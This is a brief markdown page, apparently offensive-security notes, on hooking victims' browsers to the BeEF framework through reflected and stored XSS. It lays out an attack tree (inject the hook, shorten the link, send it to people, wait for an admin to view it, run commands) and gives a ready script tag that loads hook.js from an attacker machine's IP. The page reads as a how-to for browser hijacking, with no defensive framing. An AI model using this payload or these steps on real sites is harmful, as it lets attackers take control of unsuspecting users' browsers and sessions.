 # Hooking targets to BeEF using XSS

## Attack tree

```text
1 Reflected XSS
    1.1 Create BeEF hook
    1.2 Inject hook script in vulnerable pages
    1.3 Take url and tiny it
    1.4 Send tiny link to people
    1.3 Execute commands from BeEF
2 Stored XSS
    2.1 Create BeEF hook
    2.2 Inject hook script in vulnerable pages
    2.3 Send link to people (and may the admin often look at pages, heh)
    2.4 Execute commands from BeEF
```

## Examples

To create a BeEF hook, copy the code given by beEF and replace IP address with address of hacking machine:

    <script src="http://192.168.122.104:3000/hook.js"></script>

## Tools

* [BeEF XSS](https://www.kali.org/tools/beef-xss/)

## Troubleshooting

* [BeEF unable to load extensions](../trouble/Beef.md)
